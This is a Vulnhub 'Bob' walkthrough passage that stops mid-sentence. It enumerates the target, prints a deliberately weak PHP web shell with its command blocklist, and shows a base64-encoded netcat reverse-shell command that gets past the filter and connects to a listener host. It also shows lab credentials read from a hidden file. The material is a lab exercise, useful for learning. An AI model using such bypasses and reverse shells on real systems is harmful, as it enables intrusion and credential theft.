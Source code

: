Vulnhub - Bob

# Vulnhub - Bob
Starting enumeration, ran nmap with default scripts and service detection and found a HTML site running on TCP/80.
```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-13 15:08 -03                                                                                                                             
Nmap scan report for Milburg-High.mshome.net (172.17.11.83)
Host is up (0.00027s latency).                                                                
Not shown: 998 closed ports                                                                                                                                                                 
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.5b                                                           
80/tcp open  http    Apache httpd 2.4.25 ((Debian))                                                                                                                                         
| http-robots.txt: 4 disallowed entries                                                       
| /login.php /dev_shell.php /lat_memo.html                                                                                                                                                  
|_/passwords.html                      
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Unix   
```
This site has 4 interesting entries, that were verified
- login.php, which doesn't exist anymore

- lat_memo.html, which contains the following message from BOB:
		
 > Memo sent at GMT+10:00 2:37:42 by User: Bob 
	Hey guys IT here don't forget to check your emails regarding the recent security breach. There is a web shell running on the server with no protection but it should be safe as I have ported over the filter from the old windows server to our new linux one. Your email will have the link to the shell.
	> -Bob

- passwords.html, which had the content below:   

  > Really who made this file at least get a hash of your password to display, hackers can't do anything with a hash, this is probably why we had a security breach in the first place. Comeon people this is basic 101 security! I have moved the file off the server. Don't make me have to clean up the mess everytime someone does something as stupid as this. We will have a meeting about this and other stuff I found on the server. >:( 
  > -Bob

- dev_shell.php, is a webshell

  - Simple commands like ls works properly, but some of then fail displaying some messages.

  - Leveraging the possibilities, used cat to display the content of the php page itself to understand its limitations (cat dev_shell.php)

```
<html>
		<body>
		  <?php
		//init
		$invalid = 0;
		$command = ($_POST['in_command']);
		$bad_words = array("pwd","ls","netcat","ssh","wget","ping","traceroute","cat","nc");
		?>
		  <style>
		    ...
		  </style>
		  <!-- WIP, don't forget to report any bugs we don't want another breach guys
		  -Bob -->
		  <div id="shell">
		    <h2>
		      dev_shell
		    </h2>
		    <form action="dev_shell.php" method="post">
		      Command: <input type="text" name="in_command" /> <br>
		      <input type="submit" value="submit">
		    </form>
		    <br>
		    <h5>Output:</h5>
		    <?php
		system("running command...");
		//executes system Command
		//checks for sneaky ;
		if (strpos($command, ';') !== false)
		{
		    system("echo Nice try skid, but you will never get through this bulletproof php code"); //doesn't work :P
		}
		else
		{
		    $is_he_a_bad_man = explode(' ', trim($command));
		    //checks for dangerous commands
		    if (in_array($is_he_a_bad_man[0], $bad_words))
		    {
		        system("echo Get out skid lol");
		    }
		    else
		    {
		        system($_POST['in_command']);
		    }
		}
		?>
		  </div>
		    <img src="dev_shell_back.png" id="back" alt="">
		</body>
		</html>
```

  - The content shows, php code prevents execute of content containing: 

    - ";" which can allow multiple executions

    - Contains one of the "badwords"

      - "pwd","ls","netcat","ssh","wget","ping","traceroute","cat","nc"

    - Based on that, crafted the command, using base64 to decode  and run content, using this command was possible to get the reverse shell

```bash
echo -n 'cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMudHJhZGl0aW9uYWwgMTcyLjE3LjkuMTMxIDQ0NDMgPi90bXAvZg==' | base64 -d | bash
```

  - After upgrading shell to get autocomplete by spawning a tty using python, started the enumeration. Found hidden file .hint containing the content below

```
www-data@Milburg-High:/var/www/html$ cat .hint 
Have you tried spawning a tty shell?
Also don't forget to check for hidden files ;)
```

  - Executing LinEnum, noticed the following interesting stuff to privesc

```
User www-data may run the following commands on Milburg-High:
		(ALL) NOPASSWD: /usr/bin/service apache2 *
		(root) NOPASSWD: /bin/systemctl start ssh
```

  - As Bob mentioned that he moved the old passwords.html file, used the following command to see if www-data would be able to read it from somewhere. Started from /home directory and we were lucky, getting two credentials

```bash
$ cat /home/bob/.old_passwordfile.html
<html>
	<p>
	jc:Qwerty
	seb:T1tanium_Pa$$word_Hack3rs_Fear_M3
	</p>
</html>
```

  - From remote shell, was able to 
